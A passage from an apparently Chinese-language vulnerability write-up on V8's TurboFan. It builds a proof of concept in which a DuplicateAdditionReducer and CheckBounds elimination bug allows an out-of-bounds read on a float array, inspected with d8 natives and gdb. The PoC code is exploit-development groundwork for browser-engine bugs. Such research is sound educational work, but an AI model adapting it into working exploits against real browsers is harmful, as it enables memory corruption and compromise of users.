   console.log(f(1));
  %OptimizeFunctionOnNextCall(f);
  console.log(f(1));
</code></pre>
**问题点**：执行`console.log`时崩溃：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01958e2bf5506de2a1.png)
**解决方法**：更改数组类型。经过一番测试，发现貌似只能改成**浮点数数组**，改成其他类型的输出都会**崩溃**。
</li>
- 小结：构造POC需要重复多次 **修改代码 =&gt; 观察输出 =&gt; 从turbolizer中查看结点图 =&gt; 分析错误原因** 这个过程，有时还需要给源码打patch和上gdb调试，需要耐心。
> 为什么修饰词会影响到结点的建立等等？这其中的内容同样也需要进一步的探索。
1. 能否成功执行`DuplicateAdditionReducer`优化
1. 能否成功优化`CheckBounds`结点。
如果这两个条件都满足，那基本上构建出的POC可以OOB了。

##### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="2)%20%E8%B6%8A%E7%95%8C%E8%AF%BB%E5%8F%96"></a>2) 越界读取

POC有了，那我们试着看一下越界读取到的内存位置，

不出以外的话应该是最后一个元素`5.5`的下一个8位数据：

```
function f(x)
`{`
    let arr = [1.1, 2.2, 3.3, 4.4, 5.5];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989) + 1 + 1;
    t -= 9007199254740989;
    console.log(arr[t]);
    // 将arr数组详细信息输出
    %DebugPrint(arr);
`}`

f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
// 下断点，使v8在gdb中暂停
%SystemBreak();
```

启动GDB，可以看到 d8 自动暂停执行：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01265e372a59fa27b7.png)

之后我们可以找到DebugPrint出的数组内存地址：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013d92abbb2bbc39c9.png)
